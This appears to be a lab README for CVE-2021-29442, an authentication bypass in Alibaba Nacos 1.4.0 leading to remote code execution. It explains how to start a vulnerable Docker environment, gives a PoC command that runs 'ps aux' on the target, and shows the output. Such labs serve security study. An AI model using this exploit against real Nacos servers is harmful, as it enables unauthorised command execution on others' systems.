

Alibaba Nacos Authentication Bypass and Remote Code Execution (CVE-2021-29442)¶
Nacos is an easy-to-use platform designed for dynamic service discovery and configuration and service management.
In the Nacos version before 1.4.1, some API endpoints such as /nacos/v1/cs/ops/derby are not protected and can be openly accessed by unauthenticated users. Attackers are able to execute arbitrary SQL statement and Java code.
References:
- https://github.com/advisories/GHSA-xv5h-v7jh-p2qh
- https://github.com/alibaba/nacos/issues/4463
- https://github.com/ayoundzw/nacos-poc
- http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce
Vulnerable environment¶
Execute following command to start a Alibaba Nacos 1.4.0:
docker compose up -d
After server is started, brwose the http://your-ip:8848/nacos/ you will see the default login page of Nacos.
Exploit¶
Execute POC to exploit the issue, the -t parameter specifies the target address, the -c parameter specifies the command to be executed:
python poc.py -t http://your-ip:8848 -c "ps aux"
And you will see the ps aux is executed successfully:
{"code":200,"message":null,"data":""}
{"code":200,"message":null,"data":[{"B":0,"A":"USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMANDroot 1 0.0 0.0 814608 4992 ? Ss 18:47 0:00 [rosetta] /bin/bash /bin/bash bin/docker-startup.shroot 31 25.5 7.5 10414040 1534908 ? Sl 18:47 1:14 [rosetta] /usr/lib/jvm/java-1.8.0-openjdk/bin/java /usr/lib/jvm/java-1.8.0-openjdk/bin/java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=9555 -Xms2g -Xmx2g -Xmn1g -Dnacos.standalone=true -Dnacos.core.auth.enabled=true -Dnacos.member.list= -Djava.ext.dirs=/usr/lib/jvm/java-1.8.0-openjdk/jre/lib/ext:/usr/lib/jvm/java-1.8.0-openjdk/lib/ext:/home/nacos/plugins/health:/home/nacos/plugins/cmdb:/home/nacos/plugins/mysql -Xloggc:/home/nacos/logs/nacos_gc.log -verbose:gc -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCTimeStamps -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=10 -XX:GCLogFileSize=100M -Dnacos.home=/home/nacos -jar /home/nacos/target/nacos-server.jar --spring.config.location=/home/nacos/init.d/,file:/home/nacos/conf/,classpath:/,classpath:/config/,file:./,file:./config/ --spring.config.name=application,custom --logging.config=/home/nacos/conf/nacos-logback.xml --server.max-http-header-size=524288root 406 0.0 0.0 854552 5504 ? R 18:51 0:00 ps aux"}]}
